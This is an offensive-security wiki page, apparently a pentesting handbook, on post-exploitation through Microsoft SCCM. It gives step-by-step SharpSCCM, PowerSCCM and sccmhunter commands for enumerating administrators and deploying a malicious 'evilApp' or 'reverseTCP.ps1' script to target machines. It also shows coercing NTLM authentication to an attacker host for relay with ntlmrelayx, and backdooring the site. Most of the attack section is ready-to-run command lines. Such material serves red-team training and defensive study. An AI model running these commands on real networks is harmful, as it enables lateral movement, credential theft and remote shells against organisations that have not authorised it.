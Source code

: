 # Post Exploitation

## Theory

Since the main goal of SCCM is to deploy applications and services on the managed assets of the Active Directory, it is also a pretty good candidate to move latteraly on the network. With administrative rights on the primary site server, this can be done by deploying applications and scripts on the targets or coercing clients' authentication.

Additionnaly, SCCM permits to enumerate many data on the ressources. Among all the services offered by SCCM to the administrator, there is one named **CMPivot**. This service, located on the MP server, can enumerate all the resources of a computer or computer collection (installed software, local administrators, hardware specification, etc.), and perform administrative tasks on them. It uses a HTTP REST API, named **AdminService**, provided by the SMS Provider server.

Finally, as indicated by [Chris Thompson](https://mobile.twitter.com/\_mayyhem) in his article [SCCM Hierarchy Takeover](https://posts.specterops.io/sccm-hierarchy-takeover-41929c61e087), by default, when a new user is promoted to any SCCM administrative role on a primary site server (for example, `Full Administrator`), **the role is automatically propagated to the other SCCM site in the hierarchy by the CAS**.

This means that there is no security boundary between SCCM sites in a same hierarchy, and being able to takeover one SCCM site implicates to takeover all the others.

## Practice

### Admin & Special Account Enumeration

This step requires administrative privileges over the SCCM Management Point (MP) in order to query the MP's WMI database.

{% tabs %}
{% tab title="Windows" %}
**Admin Users**

```powershell
SharpSCCM.exe get class-instances SMS_ADMIN
```

**Special Accounts**

```powershell
SharpSCCM.exe get class-instances SMS_SCI_Reserved
```

<div>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Admin user enumeration in SCCM</p></figcaption></figure>

 

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>Special Account Enumeration in SCCM</p></figcaption></figure>

</div>
{% endtab %}
{% endtabs %}

### Applications and scripts deployment

{% tabs %}
{% tab title="SharpSCCM" %}
References:

* [https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)

**Step 1: Confirm Access permissions**

```powershell
SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

**Step 2: Find target device**

```powershell
# Search for device of user "Frank.Zapper"
SharpSCCM.exe get primary-users -u Frank.Zapper

# List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

**Step 3: Deploy Application to target device**

In this final step you can chose to either create an actual application to deploy to the target machine or just trigger an install from a remote UNC path in order to capture and relay an incoming NTLM authentication. Note the following:

* Coercing an authentication might be stealthier (and requires less cleanup) than installing an application
* To capture and relay NTLM credentials, the target device must support NTLM (very likely).
* The neat part: The Authentication can be coerced using the primary user account of the device OR the device computer account (you can choose)

```bash
# Prep capturing server
## ntlmrelayx targeting 10.250.2.179
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179

# Also keep Pcredz running, just in case
Pcredz -i enp0s8 -t
```

```powershell
# Run the attack
SharpSCCM.exe exec -rid <TargetResourceID> -r <AttackerHost>
```

Note that the incoming authentication requsts might take a while (couple minutes) to roll in...

<div>

<figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Execution_Step3_Trigger_Deployment%20(1).png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../../.gitbook/assets/SCCM_Lateral_Movement_Execution_Step3_Capture_Authentication.png" alt=""><figcaption></figcaption></figure>

</div>
{% endtab %}

{% tab title="PowerSCCM" %}
With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```
{% endtab %}
{% endtabs %}

### AdminService API

It appears that, with SCCM administrative rights, it is possible to directly interact with the **AdminService** API, without using CMPivot, for post SCCM exploitation purpose.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
sccmhunter.py admin -u "$USER" -p "$PASSWORD" -ip "site_server_IP"
```

Then, the `help` command can be typed in the opened shell to view all the CMPivot commands handled by [sccmhunter](https://github.com/garrettfoster13/sccmhunter).

```bash
() C:\ >> help

Documented commands (use 'help -v' for verbose/'help <topic>' for details):

Database Commands
=================
get_collection  get_device  get_lastlogon  get_puser  get_user

Interface Commands
==================
exit  interact

PostEx Commands
===============
add_admin  backdoor  backup  delete_admin  restore  script

Situational Awareness Commands
==============================
administrators  console_users  ipconfig   osinfo    sessions
cat             disk           list_disk  ps        shares  
cd              environment    ls         services  software
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

**Step 1: retrieve the ID of the resource to enumerate (a computer or a computer collection)**

```powershell
SharpSCCM.exe get resource-id -d "COMPUTER"
```

**Step 2: execute administrative tasks with CMPivot requests**

```powershell
# Enumerate the local administrators
SharpSCCM.exe invoke admin-service -r <resource_ID> -q "Administrators" -j

# Enumerate the installed softwares
SharpSCCM.exe invoke admin-service -r <resource_ID> -q "InstalledSoftware" -j
```

Instructions about how to write CMPivot queries are presented [here](https://learn.microsoft.com/fr-fr/mem/configmgr/core/servers/manage/cmpivot).
{% endtab %}
{% endtabs %}

### SCCM Hierarchy takeover

There is nothing to do. Just promote a user to any SCCM administrative role on a primary site server (for example, `Full Administrator`), and **the role will be automatically propagated to the other SCCM site in the hierarchy by the CAS**.

## Resources

{% embed url="https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/" %}

{% embed url="https://enigma0x3.net/2016/02/" %}

{% embed url="https://posts.specterops.io/sccm-hierarchy-takeover-41929c61e087" %}
